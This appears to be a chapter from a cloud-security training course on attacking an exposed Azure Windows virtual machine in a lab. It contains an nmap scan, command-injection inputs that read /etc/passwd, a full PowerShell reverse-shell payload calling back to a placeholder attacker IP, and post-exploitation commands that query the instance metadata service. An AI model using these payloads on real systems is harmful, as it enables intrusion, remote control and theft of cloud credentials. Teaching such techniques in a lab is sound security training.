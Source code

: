 # Azure Virtual Machines

## Introduction

Azure Virtual Machines are the same as Amazon's EC2 instances.

Basically, Azure Virtual Machines

- are like virtual machines on the cloud
- you start a Azure VM and you are given the choice of adding key pair for ssh or providing a password for a username
- for Windows images, a password for the Administrator account is made available.
- you can choose to use a pre-created image for linux and Windows
- you can add the virtual machines in their own private networks using Virtual Network
- you can allow access to certain ports and certain IPs using network groups

Attackers can target any of the aspects of Virtual Machine. This not only includes web applications, services etc. running on the instance but also the access to the Virtual Machine itself.

## What are we going to cover?

This chapter covers some of the attacks that can occur on an exposed Azure virtual machine on the Internet. This chapter also covers attacks and commands that can be run once a Windows Virtual Machine is compromised.

## Steps to attack

- SSH into attacker EC2
- All attacks in this module will be run from the attacker EC2

### Attack 1 - Service discovery on the target using Nmap

Nmap is one of the world's most widely used port scanning utilities. We can use it to discover the services exposed by the target virtual machine.

Run the following commands from the cloud attacker machine to complete this exercise

    sudo nmap -sS --script http-enum -v --top-ports 10000 -sV -g80 <TARGET-IP-ADDRESS>

Analyze the output. If you see any ports open, it is because you have set the Azure network security group rules to see the ports.

## Attack 2 - Attack the web application to gain shell access

Although, you can set the Azure Network Security group to allow your student IP (like the RDP port) and access the IP from the student/host machine directly, it is recommended that you let only the attacker machine be accessible and use a SOCKS proxy to connect and attack the target.

1. Read the `/robots.txt` to find a hidden (interesting) directory
2. Attempt various usernames. Notice that the application can be used to perform username enumeration
3. Identify the password for the `admin` user and login (Hint: One of the top 10 most common passwords)
4. Identify the vulnerability post login

It appears that the application accepts an IP address or a hostname and performs a ping request. From the output it appears that the server uses the `ping` command in the backend. To be able to test and exploit the vulnerability, we will need to identify the Operating System in the backend first.

By passing the following two inputs we can identify if the OS is Linux or Windows:

- For Linux
1. `127.0.0.1;cat /etc/passwd`

- For Windows
1. `127.0.0.1&ipconfig`

Once we have identified the OS, we can get a reverse shell to execute more commands and get a better idea of the environment we are in

To obtain a reverse shell do the following

1. Start netcat listener on port 9999 of the attacker EC2 using `nc -lvp 9999`
2. Ensure the port is open on the AWS Security Groups (Firewall) so that a reverse shell can connect back. Follow the instructions at - [https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/authorizing-access-to-an-instance.html](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/authorizing-access-to-an-instance.html)
3. Run a windows powershell reverse shell command via the command injection. **Make sure to replace the value of `EXTERNAL-AWS-ATTACKER-IP` in the following with your cloud attacker machine IP**
 

```
127.0.0.1&powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('EXTERNAL-AWS-ATTACKER-IP',9999);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

4. Ideally, running this should give you a reverse shell back to your attacker machine netcat listener. If it doesn't one of the following two things have gone wrong.
   1. The Security Group setting on AWS for the attacker machine was not configured properly to allow the reverse shell to reach netcat
   2. Windows Defender has detected the reverse shell Powershell payload. You can try a different payload from `https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell` or disable Windows Defender for the course of this exercise.

## Post Exploitation

### Additional information gathering

1. To obtain IP information: `Get-NetIPConfiguration`
2. To obtain list of users on the system: `Get-WmiObject -Class Win32_UserAccount`
3. Obtain system information: `Get-CimInstance Win32_OperatingSystem | Select-Object  Caption, InstallDate, ServicePackMajorVersion, OSArchitecture, BootDevice,  BuildNumber, CSName | FL`
4. Obtain detailed information about the entire system: `systeminfo`

### Accessing the metadata service

1. Run the following command in the reverse shell to read the metadata

`curl -UseBasicParsing -Headers @{"Metadata"="true"} 'http://169.254.169.254/metadata/instance?api-version=2017-08-01&format=text'`

2. To get the public IP address of the Instance, run 

`curl -UseBasicParsing -Headers @{"Metadata"="true"} 'http://169.254.169.254/metadata/instance/network/interface/0/ipv4/ipAddress/0/publicIpAddress?api-version=2017-08-01&format=text'`

## Addtional References

- [Nmap man page](https://linux.die.net/man/1/nmap)
- [Azure Metadata Service](https://docs.microsoft.com/en-us/azure/virtual-machines/windows/instance-metadata-service)
- [wincmdfu Twitter Account](https://twitter.com/wincmdfu)